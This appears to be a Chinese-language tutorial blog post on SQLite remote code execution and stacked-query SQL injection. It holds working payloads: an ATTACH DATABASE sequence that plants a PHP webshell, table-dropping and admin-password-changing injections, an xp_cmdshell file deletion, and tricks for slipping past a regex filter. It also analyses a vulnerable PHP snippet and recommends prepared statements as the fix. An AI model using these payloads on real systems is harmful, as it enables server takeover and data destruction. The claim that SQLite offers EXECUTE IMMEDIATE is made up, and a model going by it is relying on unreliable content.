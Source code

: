 ```yaml
---
title: SQLite RCE 與 Stacked Queries 攻擊筆記
tags: [SQLite, RCE, SQL Injection, Stacked Queries]
published: 2025-02-04
category: 教學
draft: false
password: sqlite
abstract: "沒情商人的人 這技術不就是全部疊在一起嗎? 有情商的人 : Stacked Queries"
message: 就跟你講吧 ! 密碼是 sqlite
---
```


# SQLite Remote Code Execution（RCE）與 Stacked Queries 攻擊筆記

本文將整合以下重點內容，幫助你快速理解並記錄：
1. **SQLite RCE**：利用 `ATTACH DATABASE` 與檔案寫入特性實現遠端程式碼執行（Remote Code Execution）。
2. **Stacked Queries（堆疊查詢）**：如何在一次注入中執行多條 SQL 語句，如 `INSERT`、`DELETE`、`CALL`、`EXEC` 等。
3. **原始程式碼脆弱點**：不安全的 SQL 拼接方式。
4. **繞過過濾規則**：如果有一個正規表達式（`/[+*{}',;<>()\\[\\]\\/\\:]/`）阻擋特定字元，可藉由編碼、函式組合等方式繞過。

---

## 一、SQLite RCE 攻擊：`ATTACH DATABASE` + 寫入惡意 PHP

### 1. 攻擊示例程式碼

```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```

ATTACH DATABASE：在 SQLite 中，可將任意路徑掛載為資料庫檔。

CREATE TABLE：在被掛載的「lol」資料庫裡，建立一個名為 pwn 的表，欄位為 dataz text。

INSERT：將` <?php system($_GET['cmd']); ?> `寫進這個掛載的檔案（lol.php），最終形成能被 PHP 解譯的惡意程式碼。

2. RCE 達成原因

    SQLite 可掛載任何檔案：即使該檔案其實是 PHP 程式，而非真正的 .db。
    Web Server 解譯執行 PHP：lol.php 只要被存放在可執行 PHP 的目錄（如 /var/www/），即可透過瀏覽器訪問並帶上 ?cmd=... 達到 遠端指令執行（RCE）。

3. 攻擊條件

    目標環境使用 SQLite。
    檔案系統、Web Server 允許在 /var/www/ 下寫入檔案或修改檔案。
    程式／PDO 允許執行「多條 SQL」的堆疊查詢（Stacked Queries）。

二、Stacked Queries（堆疊查詢）概念
1. 什麼是 Stacked Queries？

在一次 SQL 呼叫中，使用 ; 分隔多條獨立指令。

例如：
```
SELECT * FROM products WHERE productid=1; DELETE FROM products;
```

可以執行 INSERT、UPDATE、DELETE、DROP、EXEC、CALL 等操作，不再只局限於 SELECT。

2. 常見攻擊方式

    刪除資料：

1; DELETE FROM products

若原本程式是：
```
SELECT * FROM products WHERE productid=[User_Input]
```
拼接後成：
```
SELECT * FROM products WHERE productid=1; DELETE FROM products
```
執行完後，整個 products 表皆被刪除。

修改資料（改管理者密碼）：
```
1; UPDATE members SET password='pwd' WHERE username='admin'
```
直接在同一次查詢中更新任意帳號密碼。

呼叫儲存程序 / 系統函式（以 SQL Server 為例）：

    1; exec master..xp_cmdshell 'DEL important_file.txt'

    可在作業系統層級刪除檔案，甚至執行更進一步的惡意命令。

3. 限制

    不同資料庫/不同 API 支援度：MySQL + PHP（PDO）通常預設不支援堆疊查詢；SQL Server 幾乎支援；SQLite 依版本與驅動設定而異。
    權限不足：若資料庫使用者權限有限，也可能無法成功執行 DROP TABLE 或系統函式。
    需要資訊蒐集：攻擊者須事先知道資料表結構、欄位名稱、儲存程序名稱等。

三、PHP 範例程式中的漏洞分析

以下是一段示例程式，只有在使用者 ``` $_SESSION['username'] ``` 為 axel 時，才會執行插入與刪除操作：

```
<?php
include 'config.php';
session_start();

if (isset($_SESSION['username']) && $_SESSION['username'] === 'axel') {
    if ($_SERVER["REQUEST_METHOD"] == "POST") {
        if (isset($_POST['catId']) && isset($_POST['catName'])) {
            $cat_name = $_POST['catName'];
            $catId = $_POST['catId'];
            $sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
            $pdo->exec($sql_insert);

            $stmt_delete = $pdo->prepare("DELETE FROM cats WHERE cat_id = :cat_id");
            $stmt_delete->bindParam(':cat_id', $catId, PDO::PARAM_INT);
            $stmt_delete->execute();

            echo "The cat has been accepted and added successfully.";
        } else {
            echo "Error: Cat ID or Cat Name not provided.";
        }
    } else {
        header("Location: /");
        exit();
    }
} else {
    echo "Access denied.";
}
?>
```

**風險點：$cat_name 直接以 字串拼接 方式進入 SQL**

```php
$sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
```

攻擊者可注入惡意字串，例如：

```sql
'); DROP TABLE accepted_cats;--
```

此時 SQL 會變成：

```
INSERT INTO accepted_cats (name) VALUES (''); DROP TABLE accepted_cats;--')
```

堆疊查詢可行：若 PDO 與 SQLite 環境允許一次執行多條查詢，就可以串接更多指令，例如：

```
 '); ATTACH DATABASE '/var/www/lol.php' AS lol; CREATE TABLE lol.pwn (dataz text); ...
```

前提：攻擊者需要拿到 axel 的 Session 或能以 axel 身分發送 POST。否則程式不會跑這段邏輯。

四、繞過字元過濾：```$forbidden_patterns = "/[+*{}',;<>()\\[\\]\\/\\:]/";```

有時程式員會用 Regex 過濾特定符號。例如阻擋：+ * { } ' , ; < > ( ) [ ] / :。
攻擊者可用下列思路嘗試「繞過」：

多重編碼
*  URL 編碼：( → %28，/ → %2F，; → %3B…
*  HTML 實體：( → &#40;，; → &#59;…
*  Unicode 逃逸：( → \u0028…
如果應用程式只在「原始字串」階段檢查，之後自動解碼卻沒再比對，就          能「先繞再解」。

在資料庫端用函式生成字元
SQLite 可用 char(…) 或 x'…' 拼接字元。例如：

`SELECT char(59);` -- 產生` ';' `

或使用``` EXECUTE IMMEDIATE (SQLite 3.20+)：```

```sql
EXECUTE IMMEDIATE 'ATTACH DATABASE "/var/www/lol.php" AS lol';
```

前提是能在語法層先繞過 (、)、; 等被禁止字元，可透過編碼、二次解碼等方式實現。

* **改用雙引號 / 其他引號**
有時候 " 未被禁，但 ' 被禁。SQLite 在鬆散模式下，" 也能包住字串。

* **分段注入**
先在資料表寫一部分字串，下次再把它讀出來接著執行。或使用 PRAGMA writable_schema=1 等非常技巧。

## 核心結論

只靠單純的 Regex 過濾往往防不勝防。

更安全的做法：
參數化查詢（Prepared Statements），避免在 SQL 中直接拼接使用者輸入。

## 總結

* **SQLite RCE**
        攻擊手法：ATTACH DATABASE → 建立表 → 寫入 PHP 碼 → Web Server 解譯執行 → RCE。
        條件：必須真的能寫入 /var/www/ 並能執行 .php。

* **Stacked Queries**
        一次執行多條查詢，威力十足：增刪改、呼叫系統函式、DROP 表格等。
        支援度依資料庫與 API 而異。

* **PHP 程式漏洞**
        $_SESSION['username'] === 'axel' → 權限夠高，危險操作無法可防。
        $cat_name 未參數化 → SQL Injection 大門敞開。

* **繞過過濾**
        編碼技術、資料庫函式、雙引號替代等方法，都可能逃脫單純 Regex 的阻攔。
        根本防禦：使用 Prepared Statements，並限制檔案寫入權限、正確設定 Web Server。